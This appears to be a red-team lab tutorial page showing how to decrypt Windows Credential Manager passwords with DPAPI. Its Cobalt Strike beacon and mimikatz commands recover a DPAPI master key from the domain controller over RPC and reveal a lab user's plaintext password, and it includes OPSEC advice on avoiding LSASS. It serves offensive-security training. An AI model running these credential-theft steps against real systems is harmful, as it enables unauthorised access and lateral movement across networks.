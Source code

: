 The credential manager blobs are stored in the user's `AppData` directory.

```
beacon> ls C:\Users\bfarmer\AppData\Local\Microsoft\Credentials

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 372b     fil     02/25/2021 13:07:38   9D54C839752B38B233E5D56FDD7891A7
 10kb     fil     02/21/2021 11:49:40   DFBE70A7E5CC19A398EBF1B96859CE5D
```
  

The native `vaultcmd` tool can also be used to list them.

```
beacon> run vaultcmd /listcreds:"Windows Credentials" /all
Credentials in vault: Windows Credentials

Credential schema: Windows Domain Password Credential
Resource: Domain:target=TERMSRV/srv-1
Identity: DEV\bfarmer
Hidden: No
Roaming: No
Property (schema element id,value): (100,2)
```

  

Or `mimikatz vault::list`.

```
beacon> mimikatz vault::list

Vault : {4bf4c442-9b8a-41a0-b380-dd4a704ddb28}
    Name       : Web Credentials
    Path       : C:\Users\bfarmer\AppData\Local\Microsoft\Vault\4BF4C442-9B8A-41A0-B380-DD4A704DDB28
    Items (0)

Vault : {77bc582b-f0a6-4e15-4e80-61736b6f3b29}
    Name       : Windows Credentials
    Path       : C:\Users\bfarmer\AppData\Local\Microsoft\Vault
    Items (1)
      0.    (null)
        Type            : {3e0e35be-1b77-43e7-b873-aed901b6275b}
        LastWritten     : 2/25/2021 1:07:38 PM
        Flags           : 00000000
        Ressource       : [STRING] Domain:target=TERMSRV/srv-1
        Identity        : [STRING] DEV\bfarmer
        Authenticator   : 
        PackageSid      : 
        *Authenticator* : [BYTE*] 

        *** Domain Password ***
```

  

If you go to the **Control Panel > Credential Manager** on WKSTN-1 and select **Windows Credentials**, you will see how this credential appears to the user. And opening the **Remote Desktop Connection** client shows how these creds are automatically populated for the target server.

  

![](https://rto-assets.s3.eu-west-2.amazonaws.com/dpapi/cred-manager.png)

  

To decrypt the credential, we need to find the master encryption key.

First, run `dpapi::cred` and provide the location to the blob on disk.

```
beacon> mimikatz dpapi::cred /in:C:\Users\bfarmer\AppData\Local\Microsoft\Credentials\9D54C839752B38B233E5D56FDD7891A7

**BLOB**
  dwVersion          : 00000001 - 1
  guidProvider       : {df9d8cd0-1501-11d1-8c7a-00c04fc297eb}
  dwMasterKeyVersion : 00000001 - 1
  guidMasterKey      : {a23a1631-e2ca-4805-9f2f-fe8966fd8698}
  dwFlags            : 20000000 - 536870912 (system ; )
  dwDescriptionLen   : 00000030 - 48
  szDescription      : Local Credential Data

  algCrypt           : 00006603 - 26115 (CALG_3DES)
  dwAlgCryptLen      : 000000c0 - 192
  dwSaltLen          : 00000010 - 16
  pbSalt             : f8fb8d0f5df3f976e445134a2410ffcd
  dwHmacKeyLen       : 00000000 - 0
  pbHmackKey         : 
  algHash            : 00008004 - 32772 (CALG_SHA1)
  dwAlgHashLen       : 000000a0 - 160
  dwHmac2KeyLen      : 00000010 - 16
  pbHmack2Key        : e8ae77b9f12aef047664529148beffcc
  dwDataLen          : 000000b0 - 176
  pbData             : b8f619[...snip...]b493fe
  dwSignLen          : 00000014 - 20
  pbSign             : 2e12c7baddfa120e1982789f7265f9bb94208985
```

  

The **pbData** field contains the encrypted data and the **guidMasterKey** contains the GUID of the key needed to decrypt it. The Master Key information is stored within the user's `AppData\Roaming\Microsoft\Protect` directory (where `S-1-5-21-*` is their SID).

```
beacon> ls C:\Users\bfarmer\AppData\Roaming\Microsoft\Protect\S-1-5-21-3263068140-2042698922-2891547269-1120

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 740b     fil     02/21/2021 11:49:40   a23a1631-e2ca-4805-9f2f-fe8966fd8698
 928b     fil     02/21/2021 11:49:40   BK-DEV
 24b      fil     02/21/2021 11:49:40   Preferred
```

  
Notice how this filename **a23a1631-e2ca-4805-9f2f-fe8966fd8698** matches the **guidMasterKey** field above.

There are a few ways to get the actual Master Key content. If you have access to a high integrity session, you may be able to dump it from memory using `sekurlsa::dpapi`. However it may not always be cached here and this interacts with LSASS which is not ideal for OPSEC. My preferred method is to use the RPC service exposed on the Domain Controller, which is a "legitimate" means (as in, by design and using legitimate RPC traffic).

Run `mimikatz dpapi::masterkey`, provide the path to the Master Key information and specify `/rpc`.

```
beacon> mimikatz dpapi::masterkey /in:C:\Users\bfarmer\AppData\Roaming\Microsoft\Protect\S-1-5-21-3263068140-2042698922-2891547269-1120\a23a1631-e2ca-4805-9f2f-fe8966fd8698 /rpc

[domainkey] with RPC
[DC] 'dev.cyberbotic.io' will be the domain
[DC] 'dc-2.dev.cyberbotic.io' will be the DC server
  key : 0c0105785f89063857239915037fbbf0ee049d984a09a7ae34f7cfc31ae4e6fd029e6036cde245329c635a6839884542ec97bf640242889f61d80b7851aba8df
  sha1: e3d7a52f1755a35078736eecb5ea6a23bb8619fc
```

  

The **key** field is the key needed to decrypt the credential, which we can do with `dpapi::cred`.

```
beacon> mimikatz dpapi::cred /in:C:\Users\bfarmer\AppData\Local\Microsoft\Credentials\9D54C839752B38B233E5D56FDD7891A7 /masterkey:0c0105785f89063857239915037fbbf0ee049d984a09a7ae34f7cfc31ae4e6fd029e6036cde245329c635a6839884542ec97bf640242889f61d80b7851aba8df

Decrypting Credential:
 [...snip...]
  UserName       : DEV\bfarmer
  CredentialBlob : Sup3rman
```


In this case bfarmer is a local admin on SRV-1, so they just have their own domain credentials saved. It's worth noting that even if they had local credentials or even a different set of domain credentials saved, the process to decrypt them would be exactly the same.